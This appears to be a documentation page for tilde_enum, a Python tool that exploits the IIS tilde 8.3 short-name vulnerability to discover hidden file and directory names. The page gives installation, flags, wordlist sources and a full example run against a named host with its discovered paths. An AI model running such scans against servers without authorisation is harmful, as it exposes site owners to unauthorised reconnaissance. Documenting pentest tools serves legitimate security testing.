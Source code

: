 ```yaml
---
title : "tilde_enum"
# pre : ' '
description : "Exploits and expands the file names found from the (IIS) tilde enumeration vuln."
date : 2022-02-07T09:55:27+01:00
# hidden : true
# draft : true
weight : 0
tags : ['Other', 'IIS']
---
```


## tilde_enum

Takes a URL and then exploits the IIS tilde 8.3 enumeration vuln (<https://soroush.secproject.com/blog/tag/iis-tilde-vulnerability/>, <http://www.acunetix.com/vulnerabilities/microsoft-iis-tilde-direc/>, <http://soroush.secproject.com/downloadable/microsoft_iis_tilde_character_vulnerability_feature.pdf>) and tries to get you full file and directory names.

This is an attempt to take the cool POC scanner at <https://github.com/irsdl/iis-shortname-scanner/tree/master/> and get you the rest of the file/directory names so you can retrieve them.

Feed this script a URL and also a word list of potential file/dir names. The script will look up the roots in your word list and then try them with appropriate extensions.

For word lists, the [fuzzdb](https://code.google.com/p/fuzzdb/) word lists are pretty good. We sometimes use the <https://code.google.com/p/fuzzdb/source/browse/trunk/discovery/PredictableRes/raft-small-words-lowercase.txt> (or large or medium) for this work.

This is not a directory enumerator (i.e., tries all words in a list against a web server). It will only find directories that have names longer than 8 characters (since only then will they have 8.3 names and be recognized by the vulnerability). You should still try to enumerate directories using a word list and [DirBuster](https://www.owasp.org/index.php/Category:OWASP_DirBuster_Project) or Burp Intruder or something.

Just as a note: on Windows computers you can view 8.3 names in the command prompt window by using the `dir /x` command. One of the columns will be the 8.3 name (if there is one).

## Installation

```plain
git clone https://github.com/WebBreacher/tilde_enum
```

Find wordlists to use at [this GitHub repo](https://github.com/tennc/fuzzdb/tree/master/Discovery/PredictableRes). Or download some handy ones below.

{{%resources title="Wordlists" fa_icon_class="far fa-file" pattern=".*(txt)"/%}}

## Usage

```plain
tilde_enum.py [-h] [-c COOKIES] [-d DIRWORDLIST] [-f] [-p PROXY]
                     [-s SNOOZE] [-u URL] [-v] [-w WORDLIST]
                     [--no-check-certificate]
```

## Flags

```plain
Exploits and expands the file names found from the tilde enumeration vuln

optional arguments:
  -h, --help            show this help message and exit
  -c COOKIES            cookies to be used in the request
  -d DIRWORDLIST        an optional wordlist for directory name content
  -f                    force testing of the server even if the headers do not
                        report it as an IIS system
  -p PROXY              Use a proxy host:port
  -s SNOOZE             time in seconds to sleep/wait between requests
  -u URL                URL to scan
  -v                    verbose output
  -w WORDLIST           the word list to be used for guessing files
  --no-check-certificate
                        don't verify the SSL certificate
```

## Examples

```plain
$  python2 tilde_enum.py -u http://offsec.nl -w raft-small-directories-lowercase.txt
[-]  Testing with dummy file request http://offsec.nl/mhxWjUz25u.htm
[-] URLNotThere -> HTTP Code: 404, Response Length: 1635
[-]  Testing with user-submitted http://offsec.nl
[-] URLUser -> HTTP Code: 200, Response Length: 1433
[+]  The server is reporting that it is IIS (Microsoft-IIS/6.0).
[+]  The server is vulnerable to the tilde enumeration vulnerability (IIS/5|6.x)..
[+]  Found a new directory: aspnet
[+]  Found a new directory: copyof
[+]  Found a new directory: docume
[+]  Found a new directory: javasc
[+]  Found file:  parame . xml
[+]  Found file:  765432 . htm
[+]  Found file:  _vti_i . htm
[+]  Found a new directory: _vti_s
[-]  Finished doing the 8.3 enumeration for /.
[-]  Now starting the word guessing using word list calls
[*]  Found one! (Size 1307) http://offsec.nl/parameter.xml
[*]  Found one! (Size 1754) http://offsec.nl/_vti_inf.html
[-]  Trying to find directory matches now.
[-]  You used the "-d" option.
      Using /pentest/fuzzdb/discovery/predictableres/raft-small-directories-lowercase.txt for directory name look-ups.
[?]  URL: (Size 218) http://offsec.nl/aspnet_client/ with Response: HTTP Error 403: Forbidden
[*]  Found one! (Size 1433) http://offsec.nl/documentation/
[*]  Found one! (Size 1433) http://offsec.nl/javascript/
[-]  Now starting recursive 8.3 enumeration into the directories we found.
[-]  Diving into the http://offsec.nl/documentation/ dir.
[+]  Found file:  advert . htm
[+]  Found file:  defaul . asp
[-]  Finished doing the 8.3 enumeration for /documentation/.
[*]  Found one! (Size 227) http://offsec.nl/documentation/advertising.html
[*]  Found one! (Size 1433) http://offsec.nl/documentation/default.aspx
[-]  Trying to find directory matches now.
[-]  You used the "-d" option.
      Using /pentest/fuzzdb/discovery/predictableres/raft-small-directories-lowercase.txt for directory name look-ups.
[-]  Diving into the http://offsec.nl/javascript/ dir.
[+]  Found file:  321 . xls
[-]  Finished doing the 8.3 enumeration for /javascript/.
[-]  File name (321) too short to look up in word list. We will use it to bruteforce.
[*]  Found one! (Size 227) http://offsec.nl/javascript/321.xlsx
[-]  Trying to find directory matches now.
[-]  You used the "-d" option.
      Using /pentest/fuzzdb/discovery/predictableres/raft-small-directories-lowercase.txt for directory name look-ups.

---------- FINAL OUTPUT ------------------------------
[*]  We found files for you to look at:
[*]      http://offsec.nl/_vti_inf.html  - Size 1754
[*]      http://offsec.nl/documentation/advertising.html  - Size 227
[*]      http://offsec.nl/documentation/default.aspx  - Size 1433
[*]      http://offsec.nl/javascript/321.xlsx  - Size 227
[*]      http://offsec.nl/parameter.xml  - Size 1307

[*]  Here are all the 8.3 names we found.
[*]  If any of these are 6 chars and look like they should work,
        try the file name with the first or second instead of all of them.
[*]      http://offsec.nl/documentation/advert~1.htm
[*]      http://offsec.nl/documentation/defaul~1.asp
[*]      http://offsec.nl/765432~1.htm
[*]      http://offsec.nl/_vti_i~1.htm
[*]      http://offsec.nl/parame~1.xml
[*]      http://offsec.nl/javascript/321~1.xls

[*]  We found directories for you to look at:
[*]      http://offsec.nl/documentation/  - Size 1433
[*]      http://offsec.nl/javascript/  - Size 1433

[*]  Here are all the directory names we found. You may wish to try to guess them yourself too.
[?]      http://offsec.nl/_vti_s~1/
[?]      http://offsec.nl/aspnet~1/
[?]      http://offsec.nl/copyof~1/
[?]      http://offsec.nl/docume~1/
[?]      http://offsec.nl/javasc~1/

[*]  We found directory URLs you should check out. They were not HTTP response code 200s.
[?]      HTTP Resp 403 - http://offsec.nl/aspnet_client/  - Size 218
```

## URL List

- [Github.com - tilde_enum](https://github.com/WebBreacher/tilde_enum)
- [Github.com - Wordlists to use](https://github.com/tennc/fuzzdb/tree/master/Discovery/PredictableRes)

